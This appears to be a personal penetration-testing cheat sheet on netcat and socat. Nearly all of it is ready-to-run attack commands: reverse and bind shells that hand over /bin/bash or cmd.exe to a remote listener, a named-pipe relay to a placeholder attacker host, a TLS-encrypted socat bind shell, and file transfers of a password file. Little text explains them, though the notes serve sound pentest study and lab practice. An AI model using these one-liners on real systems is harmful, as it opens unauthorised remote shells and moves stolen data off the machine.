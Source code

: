```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

netcat and socat

Transferring files:

~~~bash
nc -nlvp 4444 > incoming.exe

nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
~~~

Binding session to process/executable:

~~~bash
nc -nlvp 4444 -e cmd.exe

nc -nv 10.11.0.22 4444

nc -v -n 10.10.14.32 7777 -e C:\windows\System32\cmd.exe
~~~

Reverse Shell:

~~~bash
nc -nlvp 4444

nc -nv 10.11.0.22 4444 -e /bin/bash
~~~

Netcat Relay (for netcat without -e option)

~~~bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc <ATTACKERIP> <ATTACKERPORT> 1>/tmp/backpipe
~~~

NetCat vs SoCat

~~~bash
nc <remote server's ip address> 80

socat - TCP4:<remote server's ip address>:80
~~~

~~~bash
nc -lvp localhost 443

socat TCP4-LISTEN:443 STDOUT
~~~

SoCat File Transfers

~~~bash
socat TCP4-LISTEN:443,fork file:secret_passwords.txt

socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
~~~

SoCat Reverse Shells

~~~bash
socat -d -d TCP4-LISTEN:443 STDOUT

socat TCP4:10.11.0.22:443 EXEC:/bin/bash
~~~

SoCat Encrypted Bind Shells

~~~bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt

cat bind_shell.key bind_shell.crt > bind_shell.pem

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

socat - OPENSSL:10.11.0.4:443,verify=0
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
